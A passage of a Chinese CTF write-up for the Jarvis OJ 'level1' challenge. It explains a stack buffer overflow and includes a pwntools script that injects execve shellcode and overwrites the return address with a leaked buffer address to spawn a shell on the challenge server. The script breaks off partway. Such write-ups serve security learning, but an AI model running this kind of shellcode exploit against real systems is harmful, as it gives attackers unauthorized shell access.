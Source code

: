 当前程序的布置为：
```
|-------------|-------|-------|
    buf          ebp     ret
```
现在知道shellcode的地址（buf的地址，可泄漏出来），以及返回地址，所以利用方式也很清晰了，将shellcode布置到栈中，同时将返回地址覆盖为buf的地址，程序返回时可以直接跳入返回地址之中，如下：
```
|-------------------------|
V                         | 
|-------------|-------|-------|
    buf          ebp     ret

```

完整的利用脚本如下：
``` python
#!/usr/bin/python

from pwn import *

def get_buf_addr():
    global io
    io.recvuntil('this:')
    buf_addr = int(io.recvuntil('?').strip('?'), 16)
    print(hex(buf_addr))
    return buf_addr

def exploit():
    global io
    ret_addr = get_buf_addr()
    
    shellcode  = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
    payload    = shellcode
    payload   += 'A' * (0x88-len(shellcode))
    payload   += 'A' * 0x4     # ebp
    payload   += p32(ret_addr) # ret addr
    
    io.sendline(payload)
    
    # get shell
    io.interactive()


if __name__ == '__main__':
    target_elf = './level1'
    #target_libc = './libc-2.23.so'

    target_host = 'pwn2.jarvisoj.com'
    target_port = '9877'

    #context.log_level = 'debug'
    #context.terminal = ['tmux', 'splitw', '-v']

    #gdb.attach(proc.pidof(p)[0])

    elf = ELF(target_elf)
    #libc = ELF(target_libc)

    #LOCAL = True
    LOCAL = False

    if LOCAL:
        #io = process(target_elf, env={'LD_PRELOAD':target_libc})
```